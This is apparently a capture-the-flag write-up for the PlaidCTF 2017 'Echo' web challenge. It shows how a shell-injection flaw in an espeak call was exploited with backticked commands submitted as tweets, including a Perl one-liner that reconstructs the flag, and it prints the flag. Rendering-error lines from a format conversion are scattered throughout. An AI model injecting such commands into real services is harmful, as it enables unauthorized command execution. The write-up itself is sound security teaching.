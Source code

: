 ```yaml
---
title: "PlaidCTF 2017 - Echo (web 200) Writeup"
slug: "plaidctf-2017-echo-web-200-writeup"
date: "2017-04-23 18:31:40.265798"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


This challenge presents a webpage with the text "Tweets are 140 characters only!" and input boxes for four tweets. Submitting tweets gives you a page with wav files, one per tweet that contains a text to speech version of the tweet.

The source code for the web front-end was provided. Examining it, you see that the tweets are written to a file:

"System Message: ERROR/3 (<string>:, line 5)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines: 85
   :filename: echo_57f0dd57961caae2fd8b3c080f0e125b.py

        with open(my_path + "input" ,"w") as f:
            f.write('\n'.join(tweets))

~~~~~~~~

Also, a flag is expanded and written to a file. This creates a large file (65000b per character of the flag) that needs to be acquired completely to get the flag.

"System Message: ERROR/3 (<string>:, line 14)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines: 25
   :filename: echo_57f0dd57961caae2fd8b3c080f0e125b.py

   def process_flag (outfile):
       with open(outfile,'w') as f:
           for x in flag:
               c = 0
               towrite = ''
               for i in range(65000 - 1):
                   k = random.randint(0,127)
                   c = c ^ k
                   towrite += chr(k)

               f.write(towrite + chr(c ^ ord(x)))
       return

~~~~~~~~

Both of these files are passed to a docker container:

"System Message: ERROR/3 (<string>:, line 33)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines: 10
   :filename: echo_57f0dd57961caae2fd8b3c080f0e125b.py

   docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"

~~~~~~~~

{language=python}
~~~~~~~~
94      subprocess.call(docker_cmd.format(path=my_path).split())
~~~~~~~~

Finally, the dockerized process must generate the wav files, because they're then converted back in our python code:

"System Message: ERROR/3 (<string>:, line 47)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines: 11
   :filename: echo_57f0dd57961caae2fd8b3c080f0e125b.py

   convert_cmd = "ffmpeg -i {in_path} -codec:a libmp3lame -qscale:a 2 {out_path}"

~~~~~~~~

"System Message: ERROR/3 (<string>:, line 53)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines: 43
   :filename: echo_57f0dd57961caae2fd8b3c080f0e125b.py

       for i in range(n):
           st = os.stat(path + str(i+1) + ".wav")
           if st.st_size < 5242880:
               subprocess.call (convert_cmd.format(in_path=path + str(i+1) + ".wav",
                                            out_path=target_path + str(i+1) + ".wav").split())


~~~~~~~~

So, first step is to get the run.py that is executed in docker. I chose to extract it from the image without actually creating a container. I'm not very well-versed in Docker, so there may be an easier way to do this:

{language=bash}
~~~~~~~~
docker pull lumjjb/echo_container
docker save lumjjb/echo_container > echo.tar
tar xvf echo.tar
for l in */layer.tar ; do echo $l ; tar tvf $l ; done | less
tar xvf 8f*/layer.tar run.py
~~~~~~~~

That gives us:

"System Message: ERROR/3 (<string>:, line 76)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: python
   :number-lines:
   :filename: run.py

   import sys
   from subprocess import call

   import signal
   import os
   def handler(signum, frame):
       os._exit(-1)

   signal.signal(signal.SIGALRM, handler)
   signal.alarm(30)


   INPUT_FILE="/share/input"
   OUTPUT_PATH="/share/out/"

   def just_saying (fname):
       with open(fname) as f:
           lines = f.readlines()
           i=0
           for l in lines:
               i += 1

               if i == 5:
                   break

               l = l.strip()

               # Do TTS into mp3 file into output path
               call(["sh","-c",
                   "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])

~~~~~~~~

A quick glance at that shows that it's vulnerable to shell injection in the call to espeak. Submitting a tweet with of ``pwd`` (using backticks) returns an audio of "slash", confirming.

Since the audio is converted by ffmpeg, we can't just cat the flag file into the output wav files. Instead, I chose to reconstruct the flag within the docker image. After confirming that the docker environment had Perl available, I was off to do some golfing, eventually working up to:

"System Message: ERROR/3 (<string>:, line 115)"
Error in "code" directive:
maximum 1 argument(s) allowed, 5 supplied.

{language=python}
~~~~~~~~
.. code:: `perl -e 'local$/;$a=<>;$f[$_/65000]^=ord(substr($a,$_,1))for(0..length($a)-1);print join"-",@f' share/flag`

~~~~~~~~

This one-liner reconstructs the flag and prints the decimal ASCII values of each character. Manually transcribed from the audio, it gives:

"System Message: ERROR/3 (<string>:, line 119)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: 80-67-84-70-123-76-49-53-115-116-51-110-95-84-48-95-95-114-101-101-101-95-114-101-101-101-101-101-101-95-114-101-101-101-95-108-97-125

~~~~~~~~

which decodes to:

"System Message: ERROR/3 (<string>:, line 123)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: PCTF{L15st3n_T0__reee_reeeeee_reee_la}
~~~~~~~~
